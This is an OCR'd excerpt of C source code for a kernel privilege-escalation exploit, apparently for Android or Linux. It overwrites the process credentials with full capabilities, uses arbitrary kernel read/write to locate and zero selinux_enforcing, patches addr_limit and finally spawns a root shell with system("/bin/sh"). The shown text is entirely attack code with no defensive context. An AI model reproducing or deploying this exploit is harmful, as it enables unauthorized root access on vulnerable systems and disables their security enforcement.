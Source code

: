 ```c
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_bset)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_ambient)), CAP_EMPTY_SET);

}

void DisableSElinux(){
    printf("[+] whether selinux is enabled\n");

    ptrdiff_t nsProxy = kReadQword(m_nsproxyAddress);

    if(!nsProxy){
        printf("\t [-] Failed to read nsproxy: %p",m_nsproxyAddress);
        exit(EXIT_FAILURE);
    }
    ptrdiff_t kernelBase = nsProxy - SYMBOL_OFFSET_init_nsproxy;
    auto selinuxEnforcing = (void *) (kernelBase + SYMBOL_OFFSET_selinux_enforcing);
    printf("\t[*] nsproxy: 0x%lx\n", nsProxy);
    printf("\t[*] Kernel base: 0x%lx\n", kernelBase);
    printf("\t[*] selinux_enforcing: %p\n", selinuxEnforcing);
    int selinuxEnabled = kReadDword(selinuxEnforcing);

    if (!selinuxEnabled) {
        printf("\t[*] selinux enforcing is disabled\n");
        return;
    }

    printf("\t[*] selinux enforcing is enabled\n");

    //
    // Now patch selinux_enforcing
    //

    kWriteDword(selinuxEnforcing, 0x0);

    printf("\t[*] Disabled selinux enforcing\n");
}

int main(){
    
     leak_task_struct();
     PatchAddrLimit();
    
     printf("[+] main : Setting up pipe for kernel read\\write \n");
     if(pipe(m_kernel_rw_pipe_fd) == -1){
         printf("\t[-] Unable to create pipe \n");
         exit(EXIT_FAILURE);
     }else{
         printf("\t [*] pipe created successfully\n");
     }
     JudgeRWAnyWhere();
     PatchCred();
    DisableSElinux();
    printf("[+] spawn root shell\n");
    system("/bin/sh");
     


}
```
